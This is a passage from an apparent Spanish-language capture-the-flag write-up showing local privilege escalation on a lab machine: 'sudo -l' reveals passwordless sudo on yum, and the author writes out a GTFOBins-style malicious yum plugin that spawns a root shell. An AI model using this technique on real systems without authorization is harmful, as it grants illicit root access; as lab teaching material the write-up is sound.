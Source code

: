 
### Abuso del binario yum con permiso SUDO

Ahora nuestro objetivo es elevar nuestros privilegios y obtener acceso como usuario `root`. Una buena practica es listar los privilegios que tiene el usuario actual para ejecutar comandos con `sudo`. 

```bash
[jjameson@dailybugle ~]$ sudo -l
Matching Defaults entries for jjameson on dailybugle:
    !visiblepw, always_set_home, match_group_by_gid, always_query_group_plugin,
    env_reset, env_keep="COLORS DISPLAY HOSTNAME HISTSIZE KDEDIR LS_COLORS",
    env_keep+="MAIL PS1 PS2 QTDIR USERNAME LANG LC_ADDRESS LC_CTYPE",
    env_keep+="LC_COLLATE LC_IDENTIFICATION LC_MEASUREMENT LC_MESSAGES",
    env_keep+="LC_MONETARY LC_NAME LC_NUMERIC LC_PAPER LC_TELEPHONE",
    env_keep+="LC_TIME LC_ALL LANGUAGE LINGUAS _XKB_CHARSET XAUTHORITY",
    secure_path=/sbin\:/bin\:/usr/sbin\:/usr/bin

User jjameson may run the following commands on dailybugle:
    (ALL) NOPASSWD: /usr/bin/yum
```

Como se puede observar, nuestro el usuario `jjameson` tiene privilegios para ejecutar el comando `yum` como superusuario sin necesidad de proporcionar contraseña. `Yum` es un gestor de paquetes utilizado en sistemas operativos Linux.

A continuación, verificamos si existe alguna manera de explotar el binario `yum` para obtener privilegios elevados en [GTFOBins](https://gtfobins.github.io/). Para nuestra fortuna, encontramos que utilizando los siguientes comandos podemos obtener una shell como `root`.

```bash
TF=$(mktemp -d)
cat >$TF/x<<EOF
[main]
plugins=1
pluginpath=$TF
pluginconfpath=$TF
EOF

cat >$TF/y.conf<<EOF
[main]
enabled=1
EOF

cat >$TF/y.py<<EOF
import os
import yum
from yum.plugins import PluginYumExit, TYPE_CORE, TYPE_INTERACTIVE
requires_api_version='2.1'
def init_hook(conduit):
  os.execl('/bin/sh','/bin/sh')
EOF

sudo yum -c $TF/x --enableplugin=y
```
